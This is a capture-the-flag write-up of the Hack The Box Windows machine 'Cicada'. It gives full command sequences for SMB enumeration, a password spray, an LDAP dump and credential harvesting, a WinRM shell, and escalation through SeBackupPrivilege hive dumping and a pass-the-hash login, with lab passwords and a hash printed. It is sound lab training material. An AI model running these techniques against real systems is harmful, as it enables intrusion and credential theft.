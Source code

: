 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - Null‑session SMB enumeration 🗂️  
  - Password spray via `netexec` 🔧  
  - LDAP dump with `ldapdomaindump` 📋  
  - SMB share discovery & credential harvest 🔍  
  - WinRM shell with `evil-winrm` 🪓  
  - Priv‑Esc: `SeBackupPrivilege` → `reg save` → `impacket‑secretsdump` → Pass‑the‑Hash  

---

## 🕵️ Recon

```bash
# fast full-port + default scripts
sudo nmap -sC -sV -p- 10.129.198.41 -oA nmap/cicada

# check null‑session SMB shares
nxc smb 10.129.198.41 -u guest -p '' --shares
```

- **SMB** (445) – null‑session allows listing `HR` share
- **Kerberos** (88), **LDAP** (389/636/3268/3269), **WinRM** (5985)

---

## 💥 Initial Foothold

1. **SMB null‑session → HR share**  
   ```bash
   smbclient //10.129.198.41/HR -U guest
   smb: \> get "Notice from HR.txt"
   ```
2. **Notice from HR.txt** contains default password  
   ```
   Cicada$M6Corpb*@Lp#nZp!8
   ```
3. **RID‑brute** to enumerate users  
   ```bash
   nxc smb 10.129.198.41 -u guest -p '' --rid-brute > rids.txt
   awk -F'\\\\|\\(' '{print $2}' rids.txt | tail -n +5 > users.txt
   ```
4. **Password spray** against user list  
   ```bash
   nxc smb 10.129.198.41 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' \
     --continue-on-success
   ```
   → **michael.wrightson** authenticated ✅

5. **LDAP dump** with valid creds  
   ```bash
   ldapdomaindump -u cicada.htb\\michael.wrightson \
     -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.198.41 -o ldapdump
   ```
6. **Found `david.orelious` password** in LDAP attribute →  
   `aRt$Lp#7t*VQ!3`

---

## 🔍 Pivot & Credential Harvest

1. **SMB with `david.orelious`**  
   ```bash
   smbclient //10.129.198.41/DEV -U david.orelious
   smb: \> get Backup_script.ps1
   ```
2. **Backup_script.ps1** reveals **`emily.oscars:Q!3@Lp#M6b*7t*Vt`**  
3. **WinRM shell as Emily**  
   ```bash
   evil-winrm -i 10.129.198.41 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
   ```
4. **Grab user flag**  
   ```powershell
   type C:\Users\emily.oscars.CICADA\Desktop\user.txt
   # => d333d*********************
   ```

---

## 🚀 Privilege Escalation

1. **Check Emily’s privileges**  
   ```powershell
   whoami /priv
   # SeBackupPrivilege          Enabled
   # SeRestorePrivilege         Enabled
   ```
2. **Dump SAM & SYSTEM hives**  
   ```powershell
   mkdir C:\temp
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```
3. **Download hives to Kali**  
   ```powershell
   download C:\temp\sam.hive
   download C:\temp\system.hive
   ```
4. **Extract NT hashes**  
   ```bash
   impacket-secretsdump -sam sam.hive -system system.hive local
   # Administrator:500:…:2b87e7c93a3e8a0ea4a581937016f341
   ```
5. **Pass‑the‑hash as Administrator**  
   ```bash
   impacket-psexec cicada.htb/Administrator@10.129.198.41 \
     -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
   ```
6. **Get SYSTEM shell & root flag**  
   ```powershell
   type C:\Users\Administrator\Desktop\root.txt
   # => 84702***********************
   ```

---

## 🎉 Results

- **User flag**: `d333d*********************`  
- **Root flag**: `84702***********************`  

---

## 🛠 Tools & References

- **SMB & Kerberos**: `nmap`, `netexec`, `smbclient`  
- **LDAP dump**: [ldapdomaindump](https://github.com/BloodHoundAD/ldapdomaindump)  
- **WinRM**: [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)  
- **Priv‑Esc**: [`impacket`](https://github.com/SecureAuthCorp/impacket)  

✌️ Happy hacking!